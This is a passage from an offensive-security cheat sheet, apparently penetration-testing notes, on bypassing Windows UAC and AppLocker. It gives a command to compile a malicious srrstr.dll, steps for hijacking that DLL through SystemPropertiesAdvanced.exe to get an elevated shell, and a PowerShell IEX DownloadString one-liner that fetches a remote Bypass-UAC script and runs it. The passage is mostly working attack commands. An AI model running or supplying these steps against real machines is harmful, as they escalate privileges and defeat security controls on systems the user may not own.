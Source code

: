 ```c
}
```

Compile on Kali:

```
root@kali:$ i686-w64-mingw32-g++ main.c -lws2_32 -o srrstr.dll -shared
```



### DLL Hijacking

Upload `srrstr.dll` to `C:\Users\%USERNAME%\AppData\Local\Microsoft\WindowsApps\srrstr.dll` and check it:

```
PS > rundll32.exe srrstr.dll,xyz
```

Exec and get a shell ("requires an interactive window station"):

```
PS > cmd /c C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

* [egre55.github.io/system-properties-uac-bypass](https://egre55.github.io/system-properties-uac-bypass)
* [www.youtube.com/watch?v=krC5j1Ab44I&t=3570s](https://www.youtube.com/watch?v=krC5j1Ab44I&t=3570s)




## cmstp.exe

* [0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html](https://0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html)

```
PS > IEX(New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/snovvcrash/362be57caaa167e7f5667156ac80f445/raw/1990959bc80b56179863aede06695bc499249744/Bypass-UAC.ps1')
PS > Bypass-UAC
```




## Bypass-UAC

* [github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC)





# AppLocker Bypass

* [github.com/api0cradle/UltimateAppLockerByPassList](https://github.com/api0cradle/UltimateAppLockerByPassList)
